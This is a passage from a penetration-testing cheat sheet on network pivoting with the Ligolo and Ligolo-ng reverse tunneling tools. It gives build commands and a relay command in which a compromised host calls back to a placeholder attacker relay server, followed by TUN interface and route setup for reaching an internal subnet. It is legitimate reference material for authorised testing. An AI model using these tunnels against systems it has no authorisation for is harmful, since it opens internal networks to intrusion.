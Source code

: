 ## Ligolo

Ligolo : Reverse Tunneling made easy for pentesters, by pentesters

1. Build Ligolo

    ```powershell
    # Get Ligolo and dependencies
    cd `go env GOPATH`/src
    git clone https://github.com/sysdream/ligolo
    cd ligolo
    make dep

    # Generate self-signed TLS certificates (will be placed in the certs folder)
    make certs TLS_HOST=example.com

    make build-all
    ```

2. Use Ligolo

    ```powershell
    # On your attack server.
    ./bin/localrelay_linux_amd64

    # On the compromise host.
    ligolo_windows_amd64.exe -relayserver LOCALRELAYSERVER:5555
    ```

## Ligolo-ng

Ligolo-ng : An advanced, yet simple, tunneling tool that uses TUN interfaces.

### Single Pivot

1. Downloading the binaries from [nicocha30/ligolo-ng](https://github.com/nicocha30/ligolo-ng/releases/tag/v0.5.2).

2. Setting up the ligolo-ng interface and IP routes.

    * The initial step is to create a new interface and add an IP route to the subnet that we want to pivot to through this interface. We can easily do it through the following bash script.

        ```bash
        #!/bin/bash
        ip tuntap add user root mode tun ligolo
        ip link set ligolo up
        ip route add <x.x.x.x\24> dev ligolo
        ```
